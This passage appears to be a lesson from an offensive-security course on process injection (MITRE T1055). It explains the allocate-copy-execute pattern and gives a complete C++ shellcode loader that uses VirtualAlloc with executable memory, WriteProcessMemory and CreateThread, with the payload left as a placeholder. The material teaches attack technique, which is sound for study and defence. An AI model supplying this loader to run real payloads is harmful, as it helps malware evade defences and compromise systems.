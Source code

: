 Process injection is described by MITRE [[T1055](https://attack.mitre.org/techniques/T1055/)] as a privilege escalation and defence evasion technique.  The idea of which is to inject untrusted code into the address space of a trusted process, potentially bypassing defence solutions and allowing the code to inherit the security context of the process's owner.  There are many different techniques, some more sophisticated than others.  The aim of this lesson is to introduce you to some of the more straight-forward ones to get you familiar with the concept.  

The high-level steps required for process injection to be successful are to:

1. Allocate a new region of memory in the process.
2. Copy the shellcode into that region.
3. Execute the shellcode (typically with a thread).

```c++
#include <Windows.h>

int main()
{
    unsigned char shellcode[] = "..."; // your shellcode goes here

    // allocate a region of memory
    auto hMemory = VirtualAlloc(
        NULL,                       // we don't mind where it's allocated
        sizeof(shellcode),          // the size of memory region
        MEM_COMMIT | MEM_RESERVE,   // type of memory allocation
        PAGE_EXECUTE_READWRITE      // memory protection
    );
    
    // write the shellcode into memory
    SIZE_T bytesWritten = 0;
    WriteProcessMemory(
        GetCurrentProcess(),    // handle to target process
        hMemory,                // pointer to target memory region
        &shellcode,             // pointer to data to write
        sizeof(shellcode),      // length of data to write
        &bytesWritten           // receives the number of bytes written
    );

    // create a new thread
    DWORD threadId = 0;
    auto hThread = CreateThread(
        NULL,
        0,
        (LPTHREAD_START_ROUTINE)hMemory,  // a pointer to the thing to execute
        NULL,
        0,
        &threadId                         // receives the new thread ID
    );

    // wait for the thread to finish
    WaitForSingleObject(
        hThread,    // the handle to wait on
        INFINITE    // the length of time to wait
    );
    
    // close the thread handle
    CloseHandle(hThread);
}
```